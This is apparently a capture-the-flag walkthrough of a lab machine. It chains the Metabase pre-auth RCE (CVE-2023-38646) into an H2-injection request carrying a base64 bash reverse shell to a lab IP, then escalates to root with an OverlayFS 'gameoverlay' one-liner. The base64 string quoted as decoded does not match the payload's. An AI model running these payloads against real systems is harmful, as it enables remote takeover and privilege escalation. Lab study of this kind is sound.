

# 1. Enumeration
- As always, we will start with a nmap scan:


- Visit the website at port 80, we are immediately redirect to another domain: `analytical.htb`. 
Edit `/etc/hosts`, we can now access the webpage:


- Upon clicking `Login`, we are redirected to `data.analytical.htb`. We are now presented
with a `metabase` login page.


- Not much we can do here. Trying some common username & password doesn't yield any results. After
some researches, something come across my eyes: Pre-Auth RCE in Metabase 
(<a href="https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/">CVE-2023-38646</a>)

# 2. Initial Foothold

- As the blog stated, multiple vulnerabilities found in Metabase was chained together to obtain
a Pre-Auth Remote Code Execution. To recap, the following was done:
  - Obtained the setup token from `/api/session/properties` (no authentication required)
  - Found an API endpoint that can be used with this token that validates DB connections
  - Found a 0day SQL injection vulnerability in H2 db driver
  - Using `zip:/app/metabase.jar!/sample-database.db` to prevent the corruption of any databases on disk

- Combining all of these pieces together, we are left with a beautiful proof-of-concept which can be found below:
```
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 912
Origin: http://data.analytical.htb
Connection: close
Referer: http://data.analytical.htb/auth/login?redirect=%2F
Cookie: metabase.DEVICE=cfd19b37-3377-4c51-add1-73cb155e863a

{
    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
     "details": {
                "is_on_demand": false,
                "is_full_sync": false,
                "is_sample": false,
                "cache_ttl": null,
                "refingerprint": false,
                "auto_run_queries": true,
                "schedules": {},
                "details": {
                    "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE 
                    SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c 
                    {echo,c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuODAvNTU1NSAwPiYx}|{base64,-d}|{bash,-i}')$$--=x",
                    "advanced-options": false,
                    "ssl": true
                },
                "name": "an-sec-research-team",
                "engine": "h2"
            }
}
```

- The value of `YmFzaCAtaSA+Ji9kZXYvdGNwLzEuMS4xLjEvOTk5OCAwPiYx` decoded is `sh -i >& /dev/tcp/10.10.14.80/5555 0>&1`

- Sending the request yields an error, but a reverse shell was actually triggered:


# 3. User Own

- Upon checking environment variables, we found the credentials of other users:



- Login using SSH and grab the flag:


# 4. Privilege Escalation

- Checking `suid` and `sudo -l` does not provide any useful information:


- When it comes to this limitation, we have no other choices but to try to exploit kernel privileges escalation
- Luckily, a vulnerability found in Ubuntu < 20.10 allowed a local attacker to gain elevated privileges,
  due to a patch carried in Ubuntu to allow unprivileged OverlayFS mounts.
- Reference: <a href="https://github.com/briskets/CVE-2021-3493">CVE-2021-3493</a>
- Let's try to compile the exploit and serve it to the target server:


# 5. Another approach

- We can directly elevate privilege using `gameoverlay`:

```
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; 
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && 
touch m/*; u/python3 -c 'import os;os.setuid(0);os.system(\"bash\")'";rm -rf l u w m
```


- Reference: <a href="https://github.com/OllaPapito/gameoverlay">gameoverlay</a>